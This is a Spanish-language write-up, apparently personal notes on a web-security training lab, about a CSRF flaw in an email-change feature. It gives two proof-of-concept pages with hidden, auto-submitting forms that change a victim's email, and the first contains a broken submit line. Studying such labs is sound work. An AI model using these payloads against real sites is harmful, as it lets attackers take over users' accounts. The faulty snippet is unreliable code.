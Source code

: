 En esta clase abordamos un caso básico de vulnerabilidad CSRF, en el que una funcionalidad sensible —el cambio de correo electrónico— carece de cualquier tipo de protección. Esto nos permite forzar acciones en la cuenta de un usuario autenticado simplemente haciendo que cargue una página con un formulario oculto y autoenviado.

La técnica consiste en construir una petición POST con los mismos parámetros que la funcionalidad legítima, y luego alojarla en el servidor de explotación proporcionado. Al incluir un pequeño script que autoenvía el formulario al cargar la página, conseguimos que la víctima realice la acción sin saberlo, usando su propia sesión activa.

Este laboratorio representa el escenario más sencillo de explotación CSRF, y sienta las bases para los siguientes ejercicios donde se introducirán mecanismos de defensa como tokens, verificación de cabeceras o validaciones del lado servidor.

Solucion
bueno para emepzar lo que seria lo ideal seria copiar el codigo fuente o el formulario en esta ocacion de la pagina que queremos vulnerar
en este caso le vamos a dar click derecho y editar como html
![Pasted_image_20250722165509.png](/Imagenes/Pasted_image_20250722165509.png)
para ello tenemos que modificar el codigo eliminando algunas cosas y checando cuales son los formularios en este caso solo tenemos uno y lo podemos ver de esta manera
![Pasted_image_20250722170136.png](/Imagenes/Pasted_image_20250722170136.png)
document.forms[0]
y para mandarlo seria asi document.forms[0].submit()

"
<form class="login-form" name="change-email-form" action="https://0a4500280331c6b38165c03600fc0046.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacketd@hacketd.com">
</form>

<script>
    document.forms(0).submit():
</script>
"
Este podria ser otro

"
<form method="POST" action="https://0a4500280331c6b38165c03600fc0046.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hola@hola.com">
</form>
<script>
        document.forms[0].submit();
</script>
"
